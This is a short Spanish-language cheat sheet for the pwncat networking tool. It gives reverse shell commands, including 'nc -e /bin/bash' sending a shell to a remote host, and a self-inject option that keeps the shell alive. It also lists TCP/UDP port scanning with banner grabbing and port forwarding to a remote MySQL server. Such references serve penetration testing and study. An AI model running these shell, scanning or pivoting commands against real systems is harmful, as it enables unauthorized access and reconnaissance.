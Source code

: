 # Pwncat Cheat Sheet

#### Reverse Shell (Linux)

- `pwncat -l <Lisitening-Port> -vv`: Escuchando la conexión.

- `nc -e /bin/bash <Host> <Port>`: Conexión al host y mandamos la shell.

- `pwncat -l <Lisitening-Port> --self-inject /bin/bash:<Host>:<Port>`: Conexión al host y no perder el shell con CTRL + C.

- `pwncat -l <Lisitening-Port> -vv`: Recuperar la sesión si con el anterior comando se salió con CTRL + C.

#### Escanear Puertos TCP

- `pwncat -z <Host> 1-1000`: Escanear la IP del host con el rango de puertos.
- `pwncat -z <Host> 1-1000 -4`: Escanear la IP del host con el rango de puertos, solamente IPv4.
- `pwncat -z <Host> 1-1000 -6`: Escanear la IP del host con el rango de puertos, solamente IPv6.
- `pwncat -z <Host> 1-1000 --banner`: Escanear la IP del host con el rango de puertos y mostrar la versión detectada.

#### Escanear Puertos UDP

- `pwncat -z <Host> 1-1000 -u`: Escanear la IP del host con el rango de puertos.

#### Local Port Forward

- `pwncat -L 0.0.0.0:5000 loquesea.org 3306`: Hacer que el servidor de MySQL remoto (puerto 3306) esté disponible en la máquina actual en cada interfaz en el puerto 5000.

#### Remote Port Forward

- `pwncat -R 10.0.0.1:4000 loquesea.org 3306`: Conectarse al servidor de MySQL remoto (puerto 3306) y luego conectarse a otro servidor pwncat/netcat en 10.0.0.1:4000 y puentee el tráfico.

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)